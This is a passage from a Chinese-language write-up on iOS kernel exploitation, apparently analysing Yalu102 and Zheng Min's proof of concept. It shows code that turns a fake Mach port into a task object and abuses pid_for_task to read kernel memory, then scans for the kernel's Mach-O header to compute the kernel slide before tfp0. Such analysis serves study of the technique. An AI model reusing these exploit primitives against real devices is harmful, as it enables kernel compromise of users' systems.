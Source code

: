 ```c
extern struct clock_ops sysclk_ops, calend_ops;

struct clock clock_list[] = {
    {&sysclk_ops, 0, 0},
    {&calend_ops, 0, 0}
};
```



3. 内核任意地址读

在我们拿到了这个地址之后，就需要将我们的对象转换为`task`类型，并且找到内核的基址，这样就可以算出`kslide`，进行接下来的`tfp0`操作。

```c
//将fake port的类型换成task，因为需要利用pid_for_task这个接口来进行任意地址读
fakeport->io_bits = IKOT_TASK|IO_BITS_ACTIVE;
fakeport->io_references = 0xff;
char* faketask = ((char*)fakeport) + 0x1000;
    
*(uint64_t*)(((uint64_t)fakeport) + 0x68) = faketask;
*(uint64_t*)(((uint64_t)fakeport) + 0xa0) = 0xff;
*(uint64_t*) (faketask + 0x10) = 0xee;
```

拿到`kobject`的地址，跳到页面开头，在`Yalu102`和`Zheng min`的Poc中对于这个操作的先后是不同的，但是这个并不影响，因为`faketask`的地址同样在这个页面上，所以进行一次与操作都会得到页面的起始地址。

```c
uint64_t leaked_ptr =  *(uint64_t*)(((uint64_t)fakeport) + 0x68);
leaked_ptr &= ~0x3FFF;
```

然后就写一个死循环去找`MH_MAGIC_64`，然后进行我们的`tfp0`阶段：

```c
while (1) {
        int leaked = 0;
    	*(uint64_t *)(faketask + 0x380) = leaked_ptr -0x10;
        pid_for_task(foundport, &leaked);
        if (leaked == MH_MAGIC_64) {
            printf("found kernel text at 0x%llx\n", leaked_ptr);
            break;
        }
    	//往前一个页面
        leaked_ptr -= 0x4000;
    }
```

只要为什么可以实现任意地址读，这个是因为`pid_for_task`这个函数的值没有做任何的判断，只是将传进来的参数转换成地址做一些加减运算：

```c
kern_return_t pid_for_task(struct pid_for_task_args *args){
	mach_port_t t = args->t;
    ...
    t1 = port_name_to_task(t);
    p = get_bsdtask_info(t1);
    if(p){
        pid = proc_id(p);
        err = KERN_SUCCESS;
    }
    ...
    (void) copyout((char *)&pid, pid_addr, sizeof(int));
    AUDIT_MACH_SYSCALL_EXIT(err);
    return err;
}

//pid_for_task_args
struct pid_for_task_args{
```